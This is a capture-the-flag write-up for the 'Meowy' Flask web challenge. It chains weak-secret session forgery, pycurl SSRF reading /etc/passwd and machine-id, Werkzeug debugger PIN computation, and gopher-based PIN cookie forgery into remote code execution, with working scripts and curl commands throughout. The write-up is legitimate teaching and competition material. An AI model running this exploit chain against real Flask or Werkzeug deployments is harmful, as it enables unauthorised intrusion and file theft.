

**Challenge:** Meowy  
**Category:** Web  
**Flag:** `ENO{w3rkz3ug_p1n_byp4ss_v1a_c00k13_f0rg3ry_l3ads_2_RCE!}`

## Overview

Meowy is a Flask-based cat image voting gallery ("CatBoard") with several layered vulnerabilities that chain together for remote code execution. The source code is provided but **heavily obfuscated** — all Python keywords, identifiers, HTML tags, and string literals are replaced with cat-themed words (`meow`, `mew`, `meoow`, etc.), making static analysis challenging.

The attack chain involves four stages:

1. **Weak Flask secret key** → Session forgery to gain admin access
2. **SSRF via pycurl** → Read internal files using `file://` protocol
3. **Werkzeug debugger PIN computation** → Calculate the PIN from leaked system files
4. **PIN cookie forgery via `gopher://` SSRF** → Bypass the middleware's PIN auth block and achieve RCE

## Source Code Analysis

### Deobfuscation

Despite the obfuscation, several critical parts are identifiable by their structure and the unobfuscated imports at the top of the file:

```python
import pycurl                              # SSRF primitive
from werkzeug.debug import DebuggedApplication  # Debugger with code eval
from random_word import RandomWords        # Weak secret source
```

### Vulnerability 1: Weak Session Secret (Lines 14–18)

```python
app.secret_key = None
rw = RandomWords()
while app.secret_key is None or len(app.secret_key) < 12:
    app.secret_key = rw.get_random_word()
```

The Flask session signing key is a **single English dictionary word** with a minimum length of 12 characters, sourced from the `random_word` library. This makes it trivially brute-forceable with a standard English wordlist.

### Vulnerability 2: SSRF via pycurl (Lines 419–524, `/fetch` endpoint)

The admin panel exposes a URL fetching feature backed by **pycurl**, which supports numerous protocols including `file://`, `gopher://`, `dict://`, and more. The endpoint:

- Requires `session['is_admin'] == True` (gated by the forgeable session)
- Accepts a URL via POST form data
- Uses `CURLOPT_FOLLOWLOCATION = True` (follows redirects)
- Has **no URL scheme filtering or validation**
- Returns the response body directly in the page

### Vulnerability 3: Werkzeug Debugger with Restrictive Middleware (Lines 33–69, 603–614)

The application runs with Werkzeug's `DebuggedApplication` wrapping the Flask app:

```python
# Deobfuscated main block
app.debug = True
debugger = CustomDebuggedApplication(app, evalex=True, pin_security=True)
run_simple('0.0.0.0', 5000, debugger, use_reloader=True, use_debugger=False, threaded=True)
```

Key configuration:
- `evalex=True` — **arbitrary Python code execution** is enabled in debug frames
- `pin_security=True` — PIN authentication is required before eval

The custom middleware (a subclass of `DebuggedApplication`) adds two restrictions:

1. **IP restriction on `/console`**: Only requests from private/loopback IPs can access the `/console` endpoint. External requests get a `403 Forbidden`.

2. **PIN auth interception**: When a request contains `__debugger__=yes` with `cmd=pinauth`, the middleware **intercepts it before it reaches Werkzeug** and returns:
   ```json
   {"auth": false, "error": "PIN authentication is disabled for security"}
   ```
   This effectively blocks the normal browser-based PIN authentication flow.

However, the middleware does **not** block:
- Access to `/console` from loopback (reachable via SSRF)
- Debugger eval requests (`cmd=<code>&frm=0`) — only `cmd=pinauth` is blocked
- The `check_pin_trust()` cookie-based authentication path

## Exploitation

### Step 1: Crack the Flask Secret Key

First, grab a session cookie from the application:

```bash
curl -v http://52.59.124.14:5004/
# Set-Cookie: session=eyJpc19hZG1pbiI6ZmFsc2V9.aYb5ng.zVcFZTvBwp_94C5Q8r6js0mdrJY
```

The cookie decodes to `{"is_admin": false}`. Using `flask-unsign` with a wordlist of English words (12+ characters):

```bash
# Generate wordlist of 12+ character English words
curl -sL "https://raw.githubusercontent.com/dwyl/english-words/master/words_alpha.txt" \
  | awk 'length >= 12' > long_words.txt

# Brute-force the secret key
flask-unsign --unsign \
  --cookie 'eyJpc19hZG1pbiI6ZmFsc2V9.aYb5ng.zVcFZTvBwp_94C5Q8r6js0mdrJY' \
  --wordlist long_words.txt --no-literal-eval
```

After ~101,504 attempts:

```
[+] Found secret key after 101504 attempts
b'supersaturate'
```

### Step 2: Forge an Admin Session

With the secret key, forge a cookie with `is_admin: true`:

```python
from flask.sessions import SecureCookieSessionInterface
from itsdangerous import URLSafeTimedSerializer
import hashlib

secret = 'supersaturate'
s = URLSafeTimedSerializer(
    secret,
    salt='cookie-session',
    signer_kwargs={'key_derivation': 'hmac', 'digest_method': hashlib.sha1}
)
cookie = s.dumps({'is_admin': True})
# eyJpc19hZG1pbiI6dHJ1ZX0.aYb5mQ.e4CE1zsq4MTHDUvL7ZF1Qa6kC64
```

Verifying admin access — the main page now shows the admin panel with a URL fetch form submitting to `/fetch`:

```html
<form action="/fetch" method="POST">
    <input type="text" name="url" placeholder="Enter image URL to fetch">
    <button type="submit">Fetch Image</button>
</form>
```

### Step 3: SSRF — Read System Files for PIN Computation

The SSRF endpoint supports `file://` protocol via pycurl. We use it to gather all inputs required for the Werkzeug debugger PIN calculation.

**Reading `/etc/machine-id`:**
```bash
curl -s -b "session=$ADMIN_COOKIE" \
  --data-urlencode "url=file:///etc/machine-id" \
  "http://52.59.124.14:5004/fetch"
# c8f5e9d2a1b3c4d5e6f7a8b9c0d1e2f3
```

**Reading `/sys/class/net/eth0/address` (MAC address):**
```bash
curl -s -b "session=$ADMIN_COOKIE" \
  --data-urlencode "url=file:///sys/class/net/eth0/address" \
  "http://52.59.124.14:5004/fetch"
# fe:ea:3f:88:fc:46
```

**Reading `/etc/passwd` (username for UID 1000):**
```bash
curl -s -b "session=$ADMIN_COOKIE" \
  --data-urlencode "url=file:///etc/passwd" \
  "http://52.59.124.14:5004/fetch"
# ctfplayer:x:1000:1000::/home/ctfplayer:/bin/bash
```

**Reading `/proc/self/cgroup`:**
```bash
curl -s -b "session=$ADMIN_COOKIE" \
  --data-urlencode "url=file:///proc/self/cgroup" \
  "http://52.59.124.14:5004/fetch"
# 0::/
```

**Confirming Flask module path:**
```bash
curl -s -b "session=$ADMIN_COOKIE" \
  --data-urlencode "url=file:///usr/local/lib/python3.11/site-packages/flask/app.py" \
  "http://52.59.124.14:5004/fetch"
# (Flask source code returned, confirming the path)
```

### Step 4: Compute the Werkzeug Debugger PIN

Using the Werkzeug PIN algorithm from `werkzeug/debug/__init__.py`:

```python
import hashlib
from itertools import chain

probably_public_bits = [
    'ctfplayer',                                                    # username
    'flask.app',                                                    # modname
    'Flask',                                                        # app class name
    '/usr/local/lib/python3.11/site-packages/flask/app.py'         # module file path
]

private_bits = [
    str(int('feea3f88fc46', 16)),                                  # MAC as integer
    b'c8f5e9d2a1b3c4d5e6f7a8b9c0d1e2f3'                          # machine-id (+ empty cgroup suffix)
]

h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode()
    h.update(bit)
h.update(b"cookiesalt")

cookie_name = f"__wzd{h.hexdigest()[:20]}"  # __wzd8b667ffc93a501b298d7

h.update(b"pinsalt")
num = f"{int(h.hexdigest(), 16):09d}"[:9]   # 781814166
pin = "781-814-166"
```

The PIN hash for the authentication cookie:

```python
def hash_pin(pin):
    return hashlib.sha1(f"{pin} added salt".encode()).hexdigest()[:12]

pin_hash = hash_pin("781-814-166")  # 07a0e18c04bb
```

### Step 5: Access the Debugger Console via SSRF

Using SSRF to access the Werkzeug console from loopback (bypasses the IP restriction):

```bash
curl -s -b "session=$ADMIN_COOKIE" \
  --data-urlencode "url=http://127.0.0.1:5000/console" \
  "http://52.59.124.14:5004/fetch"
```

This returns the Werkzeug interactive console HTML, which includes the debugger secret:

```javascript
var CONSOLE_MODE = true,
    SECRET = "KnSblW9GCfhEc2yU6pc9";
```

This GET request also **registers frame 0** in `self.frames` (the `_ConsoleFrame` used for the standalone console), which is required for eval requests.

### Step 6: Forge the PIN Cookie and Execute Code via `gopher://`

The middleware blocks `cmd=pinauth` requests, but the Werkzeug debugger also accepts authentication via a cookie. The cookie format (from `check_pin_trust()` in Werkzeug source) is:

```
Cookie-Name: __wzd{hash[:20]}
Cookie-Value: {unix_timestamp}|{hash_pin(pin)}
```

The `check_pin_trust` method validates:
1. The cookie value contains `timestamp|pin_hash`
2. The `pin_hash` matches `hash_pin(self.pin)`
3. The timestamp is within the last 7 days

Since we computed the PIN, we can forge this cookie. But the SSRF endpoint only lets us control the **URL** — not HTTP headers like `Cookie`. This is where `gopher://` comes in.

**pycurl supports the `gopher://` protocol**, which sends raw bytes to a TCP socket. We craft a complete HTTP request with the forged cookie:

```python
import urllib.parse
import time

secret = "KnSblW9GCfhEc2yU6pc9"
cookie_name = "__wzd8b667ffc93a501b298d7"
cookie_value = f"{int(time.time())}|07a0e18c04bb"

code = "__import__('os').popen('id').read()"

params = urllib.parse.urlencode({
    '__debugger__': 'yes',
    'cmd': code,
    'frm': '0',
    's': secret
})

http_request  = f"GET /console?{params} HTTP/1.1\r\n"
http_request += f"Host: 127.0.0.1:5000\r\n"
http_request += f"Cookie: {cookie_name}={cookie_value}\r\n"
http_request += f"Connection: close\r\n"
http_request += f"\r\n"

encoded = urllib.parse.quote(http_request, safe='')
gopher_url = f"gopher://127.0.0.1:5000/_{encoded}"
```

When this gopher URL is passed to the SSRF endpoint, pycurl:

1. Connects to `127.0.0.1:5000`
2. Sends the raw HTTP request (with our forged `__wzd` cookie)
3. The middleware sees `cmd=<code>` (not `pinauth`) → **passes through**
4. `DebuggedApplication.__call__()` processes the request:
   - `__debugger__=yes` ✓
   - `cmd` is not None (it's our Python code) ✓
   - `frame` 0 exists (created by the earlier `/console` GET) ✓
   - `secret` matches ✓
   - `check_pin_trust(environ)` validates our forged cookie ✓
5. **`execute_command()` is called** → arbitrary Python execution

```bash
# Trigger console frame creation first
curl -s -b "session=$ADMIN_COOKIE" \
  --data-urlencode "url=http://127.0.0.1:5000/console" \
  "http://52.59.124.14:5004/fetch"

# Execute code via gopher SSRF
curl -s -b "session=$ADMIN_COOKIE" \
  --data-urlencode "url=$GOPHER_URL" \
  "http://52.59.124.14:5004/fetch"
```

Response:

```
>>> __import__('os').popen('id').read()
'uid=1000(ctfplayer) gid=1000(ctfplayer) groups=1000(ctfplayer)\n'
```

### Step 7: Capture the Flag

With RCE confirmed, locate and read the flag:

```python
# Find flag files
__import__('os').popen('find / -name "*flag*" -type f 2>/dev/null').read()
# /flag.txt
# /readflag

# /flag.txt is not readable by ctfplayer, but /readflag is an executable
__import__('os').popen('/readflag').read()
```

Output:

```
ENO{w3rkz3ug_p1n_byp4ss_v1a_c00k13_f0rg3ry_l3ads_2_RCE!}
```


